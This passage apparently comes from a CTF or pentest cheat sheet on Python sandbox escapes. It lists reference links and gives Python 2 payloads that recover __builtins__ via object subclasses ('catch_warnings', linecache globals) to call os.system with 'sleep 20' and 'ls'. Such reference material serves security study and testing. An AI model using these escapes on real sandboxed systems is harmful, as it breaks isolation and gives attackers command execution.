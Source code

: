 ![Print using \_\_builtin\_\_](../../../.gitbook/assets/image%20%28138%29.png)

### Recovering \_\_builtins\_\_

* [https://programmer.help/blogs/python-sandbox-escape.html](https://programmer.help/blogs/python-sandbox-escape.html)
* [https://github.com/se162xg/notes/issues/6](https://github.com/se162xg/notes/issues/6)
* [https://www.python-course.eu/os\_module\_shell.php](https://www.python-course.eu/os_module_shell.php)
* [https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes\#builtins](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes#builtins)
* some more references
  * [https://gynvael.coldwind.pl/n/python\_sandbox\_escape](https://gynvael.coldwind.pl/n/python_sandbox_escape)
  * [https://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/](https://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/)
  * [https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/)
  * [https://lbarman.ch/blog/pyjail/](https://lbarman.ch/blog/pyjail/)

{% tabs %}
{% tab title="Python2" %}
```python
# 1 : recover __builtins__ in make eveything easier
__builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)
__builtins__['__import__']('os').system('sleep 20')
__builtins__['__import__']('time').sleep(20)
# compressed command
# i=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)['__import__']
# i('os').system('sleep 20')
# i('time').sleep(20)


# 2 : 
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('ls')
i=()

```